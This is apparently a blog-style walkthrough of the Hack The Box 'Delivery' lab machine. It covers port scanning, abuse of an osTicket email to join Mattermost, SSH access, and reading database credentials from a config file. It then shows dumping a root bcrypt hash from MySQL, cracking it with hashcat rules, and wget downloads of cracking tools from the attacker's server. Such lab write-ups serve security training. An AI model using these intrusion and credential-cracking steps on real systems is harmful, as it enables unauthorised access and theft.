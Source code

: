 ```yaml
---
layout: post
title: "Delivery"
date: 2025-04-20 
categories: CPTS Playlist
---
```

# Attack Path

First enumerate the open ports and services

```bash
rustscan -a 10.129.120.35

sudo nmap -sC -sV -oA nmap/delivery -p 22,80,8065 10.129.120.35

result:
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp   open  http    nginx 1.14.2
|_http-title: Welcome
|_http-server-header: nginx/1.14.2
8065/tcp open  unknown
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Thu, 05 Dec 2024 14:31:32 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: rfbmprf6jpbwpe5dnrw45wrtfe
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Thu, 05 Dec 2024 14:34:10 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Date: Thu, 05 Dec 2024 14:34:12 GMT
|_    Content-Length: 0
```

Let’s visit the website. Upon clicking a link we get redirected to helpdesk.delivery.htb. Let’s add that to /etc/hosts. The site is an osticket app. It has known vulnerabilties.

![image.png]({{ site.baseurl }}/assets/delivery/image.png)

```bash
bobby, 

You may check the status of your ticket, by navigating to the Check Status page using ticket id: 5093027.

If you want to add more information to your ticket, just email 5093027@delivery.htb.

Thanks,

Support Team
```

This ticket shows that any new requests regarding this ticket will get an email automatically sent here. Let’s use this internal email to create a new account in Mattermost.

There is also another link on the home web page in contact us with domain delivery.htb, let’s add that in /etc/hosts as well.

Visiting the site lands us in a login page where we can create a new user. Let’s use the ticket email and create a new user. Once the registration is complete, we will get sent a confirmation email. We can view the email in the osticket app, simply refresh the ticket page and visit the link:

![image.png]({{ site.baseurl }}/assets/delivery/image%201.png)

Now the registration process is complete and we can sign in with the internal email to mattermost.

![image.png]({{ site.baseurl }}/assets/delivery/image%202.png)

Luckily we also got our first credential:

![image.png]({{ site.baseurl }}/assets/delivery/image%203.png)

We also got a hint that the company uses variation of PleaseSubscribe! password everywhere.

Let’s try to login as maildeliverer to ssh. We are logged in. Let’s use [LimEnum.sh](http://LimEnum.sh) to enumerate the machine.

```bash
scp /home/billy/tools/LinEnum.sh maildeliverer@10.129.120.35:~/

On Target host:
chmod +x LinEnum.sh
./LinEnum.sh

result:

[-] Network and IP info:
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.120.35  netmask 255.255.0.0  broadcast 10.129.255.255
        
[-] ARP history:
10.129.0.1 dev ens192 lladdr 00:50:56:b9:f8:ec REACHABLE

[-] Default route:
default via 10.129.0.1 dev ens192

[-] Listening TCP:
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1025          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
tcp6       0      0 :::8065                 :::*                    LISTEN      -   

********MYSQL************   
[-] MYSQL version:                                                                                                                                        
mysql  Ver 15.1 Distrib 10.3.27-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2

[-] SUID files:                                                                                                                                           
-rwsr-xr-- 1 root messagebus 51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                               
-rwsr-xr-x 1 root root 18888 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 23288 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 157192 Jan 20  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 34896 Apr 22  2020 /usr/bin/fusermount

mattermost:x:998:998::/home/mattermost:/bin/sh

*A mattermost user*
```

Let’s try and login to mysql

```bash
mysql -h localhost -u maildeliverer -p
```

Does not work. Let’s try bruteforcing root login with hashcat transformation rules. First create a text file that contains the string ‘PleaseSubscribe!’. Then:

```bash
hashcat --stdout pw -r /usr/share/hashcat/rules/best64.rule > pwlist
```

Next we install sucrack and upload it to the target server:

```bash
python3 -m http.server 1234

on target:
cd /dev/shm   #this dir because it's not persistent, deletes files later
wget http://10.10.14.132:1234/sucrack
wget http://10.10.14.132:1234/pwlist
```

Now to execute sucrack

```bash
./sucrack -a -w 20 -s 10 -u root -r pwlist
```

sucrack don’t seem to work on the target.

Let’s try another way. Looking in the config of mattermost, which apps are commonly found in /opt dir:

```bash
cat /opt/mattermost/config/config.json

result:
    "SqlSettings": {                                                                                                                   15:55:32 [384/1838]
        "DriverName": "mysql",                                                                                                                            
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",      
        "DataSourceReplicas": [],                                                                                                                         
        "DataSourceSearchReplicas": [],                                                                                                                   
        "MaxIdleConns": 20,                                                                                                                               
        "ConnMaxLifetimeMilliseconds": 3600000,                                                                                                           
        "MaxOpenConns": 300,                                                                                                                              
        "Trace": false,                                                                                                                                   
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",                                                                                           
        "QueryTimeout": 30,                                                                                                                               
        "DisableDatabaseSearch": false 
```

We acquire credentials for user mmuser.

```bash
mysql -u mmuser -p  #Crack_The_MM_Admin_PW

SHOW DATABASES;
USE mattermost;

show tables;
describe users;
select ID,Username,Password from Users;

result:
root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```

![image.png]({{ site.baseurl }}/assets/delivery/image%204.png)

Now let’s try and crack it with hashcat with our pwlist rules.

```bash
hashcat -m 3200 root_hash.txt pwlist
```

We got the password.

We could’ve also done:

```bash
hashcat -m 3200 root_hash.txt pw -r /usr/share/hashcat/rules/best64.rule
```

- osticket
- LinEnum
- Looking through config in /opt
- mysql
- hashcat with rules